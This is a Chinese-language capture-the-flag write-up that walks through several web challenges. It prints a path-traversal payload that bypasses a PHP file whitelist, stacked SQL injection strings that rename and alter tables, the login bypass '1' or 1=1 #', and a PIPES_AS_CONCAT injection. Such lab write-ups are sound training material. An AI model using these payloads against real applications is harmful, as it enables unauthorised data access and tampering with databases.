 ## Web

#### [HCTF 2018]WarmUp

- 根据提示，代码审计。

- 检查页面元素，发现`source.php`

  ![image-20201031161355168](images/warm1.png)

- 在URL后加`/source.php`，在网页上会显示源代码。审计。

- 发现`hint.php`。

  ![](images/warm2.png)

- 在URL后加`/hint.php`，在网页上会显示:

  ![](images/warm3.png)

- 再次审计源代码。

  ![warm4](images/warm4.png)

  - **必须满足if条件，才能包含file，这里也可以猜到可能考的是文件包含：**
    1. REQUEST['file']不为空
    2. REQUEST['file']是字符串
    3. checkFile($_REQUEST['file']) 为ture

- 这里回到checkFile 函数分析如何返回true。

  ```php
  public static function checkFile(&$page)
          {
              $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
              if (! isset($page) || !is_string($page)) {
                  echo "you can't see it";
                  return false;
              }
  						/*为了返回 true 两个条件必须满足
              	1 page存在 
              	2 page是字符串 ，
              	这里和外层的判断file一致*/
              if (in_array($page, $whitelist)) {
                  return true;
              }
  						/*判断传入的page或者是经过截断之后的page必须是source.php或hint.php*/
              $_page = mb_substr(
                  $page,
                  0,
                  mb_strpos($page . '?', '?')
              );
    					/*获取file两个？之间的字符串，放到url中就是http://ip/?file=xxx?中的file=xxx*/      
              if (in_array($_page, $whitelist)) {
                  return true;
              }
  
              $_page = urldecode($page); // 这里发现对_page进行了一次decode解码
              $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
              if (in_array($_page, $whitelist)) {
                  return true;
              }
              echo "you can't see it";
              return false;
          }
  ```

- 根据上面的判断构造payload。

  ```
  /source.php?file=source.php?../../../../../../../../ffffllllaaaagggg
  ```

- 在页面下方会出现flag。

  ![](images/warm5.png)

#### [强网杯 2019]随便注

- 在输入框输入`1'`返回如下，证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```
  error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
  ```

- 在输入框中输入`1' order by 1#`，不报错，直到`1' order by 3#`，报出以下错误，说明列数为2。

  ```
  error 1054 : Unknown column '3' in 'order clause'
  ```

- 在输入框中输入 `1' union select 1,2#`，报出以下错误：

  ```
  return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
  ```
  
- 发现几乎全部关键字都给过滤，尝试使用堆叠注入。

- 在输入框中输入`1';show databases;#`，查询所有数据库：

  ![](images/sql1-1.png)

- 在输入框中输入`1';show tables;#`，查询所有表：

  ![](images/sql1-2.png)

- 查询两个表中所有列：发现flag在此表中。

  ```mysql
  1';show columns from `1919810931114514`;#
  ```

  ![](images/sql1-3.png)

  ```mysql
  1';show columns from words;#
  ```

  ![](images/sql1-4.png)

- 两表数据模式相似，尝试将两个表名字互换，直接查询`1919810931114514`表中内容：

  ```mysql
  1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#
  ```

  - 将words表名改为words1，将1919810931114514表名改为words，将现在的words表中的flag列名改为id。设置数据库的默认编码为`utf8`。

- 在输入框中输入`1' or 1=1 #`，查询flag：

  ![](images/sql1-5.png)

#### [极客大挑战 2019]EasySQL

- 在用户名框输入`1'`，在密码框输入`123456`。证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '123456'' at line 1
  ```

- 一般，验证登录注册查询数据库可能会用以下语句：

  ```mysql
  select * from table_name where username='xxxx' and password='xxxxxx' ;
  ```

- 如果用户密码匹配正确则返回真值，通过验证成功登录。如果让它不匹配数据库也能返回真值那么就能绕过验证登录。

- 如果我们传入的 `username` 为 1' or 1=1 #，随意输入 `password`，那么传入后端验证时，sql语句就是

  ```mysql
  select * from table_name where username='1' or 1=1 # ' and password='xxxxxx' ;
  ```

- 因为sql语句中 # 为注释符，也就是

  ```mysql
  select * from table_name where username='1' or 1=1 
  ```

- 那么因为 `1=1` 恒为真，所以sql语句返回真值，成功实现绕过验证,得到flag。

  ![](images/sql2.png)

#### [SUCTF 2019]EasySQL

- 首先尝试单引号闭合`1'	`，发现没有结果。

- 再尝试`order by`，`union`等一系列盲注语句，发现都没有结果，证明盲注的很多字符都被过滤掉了。

- 考虑堆叠注入。查询所有数据库：`1; show databases;#`

  ![](images/sql3-1.png)

- 查询所有表：`1; show tables;#`

  ![](images/sql3-2.png)

- 查询Flag表中字段，结果显示Nonono.

  ```mysql
  1;show columns from `Flag`;#
  ```

- 查看别人写好的Wp。得到flag。

  ```mysql
  1;set sql_mode=PIPES_AS_CONCAT;select 1
  *,1
  ```

  ![](images/sql3-3.png)

#### [极客大挑战 2019]Havefun

- 检查页面元素，发现提示：

  ![](images/fun1.png)

- 直接传参`?cat=dog`，即得flag。

  ![](images/fun2.png)

#### [极客大挑战 2019]Secret 

- 查看源文件，发现`Archive_room.php`。

  ![](images/secret1.png)

- 点击链接，跳转到`Archive_room.php`。

  ![](images/secret2.png)

- 点击「SECRET」按钮。

  ![](images/secret3.png)

- 查看`Archive_room.php`源码，发现`action.php`，说明这个速度很快，使用「Burpsuite」进行拦截。

  ![image-20201103165339326](images/secret4.png)

